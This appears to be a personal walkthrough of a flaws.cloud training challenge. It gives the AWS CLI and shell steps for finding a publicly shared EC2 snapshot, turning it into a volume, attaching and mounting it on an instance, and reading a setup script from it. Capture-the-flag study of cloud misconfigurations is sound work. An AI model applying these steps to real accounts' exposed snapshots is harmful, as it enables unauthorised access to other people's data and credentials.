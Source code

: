 # EC2 Snapshot Accessible to All AWS User
Target: http://level4-1156739cfb264ced6de514971a4bef68.flaws.cloud/


<b>1. Retreive information about IAM user or role</b>
```
aws --profile flaws-cloud-3 sts get-caller-identity
```
![image](https://github.com/Krishna-Gopal-Pathak/CyberSecurity/assets/142927819/452b7b47-26aa-4219-9ca6-a44787c7d1ab)


aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
aws --profile administrator ec2 copy-snapshot --source-region us-west-2 --source-snapshot-id snap-0b49342abd1bdcb89
open aws > set us-west-2 > ec2 > snapshot > create volume > create any ec2 instance > create new key pair > volume > attach instance > ssh instance > fdisk > mount /dev/xvdf1 /mnt > df > cd /mnt/ > ls > cd ubuntu/ > ls > cat setupNginx.sh


```
aws --profile flaws-cloud-3 ec2 describe-volumes --region us-west-2
aws --profile flaws-cloud-3 ec2 describe-snapshots --snapshot-id snap-0f23409e560e2f059
aws --profile flaws-cloud-3 sts get-caller-identity
aws --profile administrator ec2 describe-snapshots --owner-id 975426262029 --region us-west-2
raid aws --profile administrator ec2 create-volume --availability-zone us-west-2a --region us-west-2 --snapshot-id snap-0b49342abd1bdcb89
raid aws --profile administrator ec2 describe-volumes --region us-west-2
raid aws --profile administrator ec2 describe-instances --region us-west-2
raid aws --profile administrator ec2 attach-volume --volume-id vol-05bfa570a13845bfc --instance-id i-0a5fc34ac1277d241 --device /dev/sdf --region us-west-2
ls
ssh
lsblk
sudo mount /dev/xvdf1 /mnt
cd /mnt
ls
cd home
ls
cd ubuntu
ls
cat setupNginx.sh
```

